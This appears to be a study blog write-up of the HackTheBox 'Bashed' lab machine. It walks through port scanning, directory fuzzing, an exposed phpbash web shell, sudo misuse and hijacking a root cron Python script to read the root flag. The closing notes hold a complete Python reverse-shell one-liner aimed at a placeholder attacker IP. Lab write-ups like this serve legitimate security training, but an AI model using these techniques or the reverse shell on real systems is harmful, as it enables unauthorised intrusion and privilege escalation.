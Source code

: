 ```yaml
---
title: "Bashed HTB"
date: 2021-08-20T17:30:30
categories:
  - study
tags:
- Linux
- File Misconfiguration
classes: wide
---
```

Bashed is an easy rated box released in 2017 on HackTheBox. HTB's writeup synopsis is:

>*"Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As 
basic access to the crontab is restricted"*

Find it [here.][htbboxlink]

[htbboxlink]: https://app.hackthebox.eu/machines/Bashed

<h2> Enumeration</h2>
**Nmap scan results:**

```
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

<h4>What is the scan telling us?</h4>

- Port 80 is open running Apache 2.4.18 on Ubuntu.
- It is the only open port, meaning everything must be done web based.
- We see a user named Arrexel.

**Gobuster:**
```
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
/server-status (Status: 403)
```
Navigating to the website we see reference to phpbash developed by Arrexel, according to the [github page](https://github.com/Arrexel/phpbash) it is:

>*"a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home."*

The github page states that it requires shell_exec php function to be enabled, and it can be found on /phpbash.php.


<h2>Foothold</h2>

We look around at the gobuster results and when we navigate to /dev/ we see an index of /dev/ and we see a *phpbash.php* file. We click on it to navigate to /dev/phpbash.php and we see a web shell where we are www-data, from here we navigate to Arrexel's home directory and find the user flag.

```
www-data@bashed:/home/arrexel# ls

user.txt
```

<h2>Privilege Escalation</h2>

Running `sudo -l` we see:
```
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
It seems that www-data can run commands as the user scriptmanager which has nopasswd ALL. In the # directory we see that there is an unusual folder called scripts owned by script manager. www-data has no perms to view the contents. But we can use `sudo -u scriptmanager chmod 777 -R scripts` to modify our www-data permission as scriptmanager to allow us to cd into the directory, and access the files inside. We now have a look inside:

```
www-data@bashed:/scripts# ls -alh

total 16K
drwxrwxrwx 2 scriptmanager scriptmanager 4.0K Dec 4 2017 .
drwxr-xr-x 23 root root 4.0K Dec 4 2017 ..
-rwxrwxrwx 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Sep 21 09:23 test.txt
```

Inside we see 2 files, test.txt and test.py, inside the test.txt file we see the contents: testing 123! This file is also only writeable by root.

`cat test.py` we see the following contents: 

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

It seems that test.py writes to text.txt, and it must do this as a cron job as only root has read/write on test.txt. From here we can replace the contents of test.py to write the contents of `/root/root.txt` to a file in this directory called `root1.txt`.

```bash
www-data@bashed:/scripts# echo "import os" > test.py

www-data@bashed:/scripts# cat test.py

import os
www-data@bashed:/scripts# echo "os.system('cat /root/root.txt > root1.txt')" >> test.py

www-data@bashed:/scripts# cat test.py

import os
os.system('cat /root/root.txt > root1.txt')
```

> Python sidenote: importing the OS module lets us use the method `os.system()` which will execute any commands inside the brackets in a linux subshell.


Wait for 1 minute and we obtain the root flag!

```bash
www-data@bashed:/scripts# ls

root1.txt
test.py
test.txt
www-data@bashed:/scripts# cat root1.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

<h4>For next time:</h4>

- Understand chmod permissions more, and the concept of being able to execute commands as another user from another user.
- See if there are any weird directories in the home directory.
- When echoing something into a file, > means everything in the file will be deleted. >> means contents will be appended to the end of the file.
- Make sure to not use multiple pairs of double quote marks, it confuses the entire thing. 
- It is possible to setup a python reverse shell `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIP",YOURPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`and catch it in NC listener. If I did this I could have ran `sudo -u scriptmanager /bin/bash` to bypass the need to `ls` and `chmod` by just opening a scriptmanager shell. 
